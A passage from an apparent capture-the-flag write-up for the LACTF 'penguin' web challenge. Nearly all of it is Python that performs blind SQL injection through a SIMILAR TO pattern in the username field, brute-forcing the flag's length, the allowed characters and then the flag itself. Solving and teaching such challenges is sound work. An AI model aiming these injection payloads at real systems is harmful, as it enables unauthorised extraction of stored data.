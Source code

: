 The script works almost fine, but the first character is missing.

That's because
```
{m} denotes repetition of the previous item exactly m times.
```

Change the script a litte bit

```py
ALPHABET = string.ascii_letters + string.digits + " " + allowed_characters

flag = "lactf{"
while "}" not in flag:
    for char in ALPHABET:
        print(char)
        payload = "_" * 6 + char + ("_" * (LENGTH - len(flag) - 1))
        data["username"] = f"' OR NAME SIMILAR TO '{payload}"
        response = requests.post(URL, data=data)
        if "We found a penguin" in response.text:
            flag += char
            print(flag)
            break
```

And it works fine.


### Script

```py
import requests, string

data = {
        "username": "emperor"
    }

def get_flag_length(URL):
    flags_length = []
    for i in range(1, 100):
        payload = "' OR NAME SIMILAR TO '" + ("_" * i)
        data["username"] = payload
        response = requests.post(URL, data=data)
        if "We found a penguin" in response.text:
            print(f"flag length: {i}")
            flags_length.append(i)
    return flags_length

def get_allowed_characters(URL):
    allowed = ""
    for char in string.punctuation + string.whitespace:
        data["username"] = char
        response = requests.post(URL, data=data)
        if "no character for u uwu" not in response.text:
            print(f"allowed character: {ord(char)}")
            allowed += char
    return allowed

if __name__ == "__main__":
    URL = "https://penguin.chall.lac.tf/submit"

    testlocal = 0
    if (testlocal):
        URL = "http://localhost:8080/submit"
    

    lengths = get_flag_length(URL)
```